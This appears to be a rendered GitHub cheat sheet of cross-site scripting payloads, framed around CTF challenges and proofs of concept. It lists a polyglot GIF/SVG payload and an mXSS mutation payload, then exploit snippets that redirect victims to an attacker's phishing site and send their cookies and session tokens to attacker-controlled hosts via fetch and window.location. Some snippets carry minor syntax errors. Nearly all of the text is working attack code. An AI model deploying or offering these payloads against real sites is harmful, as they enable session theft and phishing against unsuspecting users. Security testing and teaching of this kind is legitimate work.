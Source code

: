 `GIF89a/*<svg/onload=alert(1)>*/=alert(1)//;`

### mXSS

```javascript
<math><mtext><table><mglyph><style><!--</style><img title="--&gt;&lt;/mglyph&gt;&lt;img&Tab;src=1&Tab;onerror=alert(1)&gt;">
```

## Exploit Payloads

The following payloads can be used to turn a discovered XSS vulnerability into a more robust proof of concept or in the case of CTF like challenges extract desired data/information/cookies from a vulnerable web application.

### Phishing Redirect

The following XSS payloads can be used to force a client to navigate to another page such as a fake cloned site controlled by the attacker or some other arbitrary place on the internet. Typically such behaviour is best combined with a stored XSS vector.

```javascript
window.location = 'https://attackerphishingsite.com';
```

```javascript
window['location'] = 'https://attackerphishingsite.com';
```

```javascript
document.location = 'https://attackerphishingsite.com';
```

### Exfiltrate Auth Tokens/Cookies

_For use with an [exfiltration/attack server](#exfiltration-servers)_

Often a useful target for XSS exploits, in CTFs, are the authentication/session cookies of another user on the affected site particularly in the case of a stored XSS vulnerability. However with the advent of `secure` attributes on cookies which prevent JavaScript from being able to access cookies with `document` commands like `document.cookie` the goal of a XSS exploit has evolved. However the bellow are several payload variations that can be used when the `secure` attribute is not set of cookies to exfiltrate them out of band to a controlled web server endpoint.

```javascript
fetch('attack.domain.com?cookie=${encodeURIComponent(document.cookie)}');
```

```javascript
window.location = 'http://attack.svr?stolen_token=' + document.cookie;
```

```javascript
window['location'] = 'http://attack.svr?stolen_token=' + document['cookie'];
```

```javascript
document.location = "http://attack.svr?stolen_token=" + document.cookie";
```
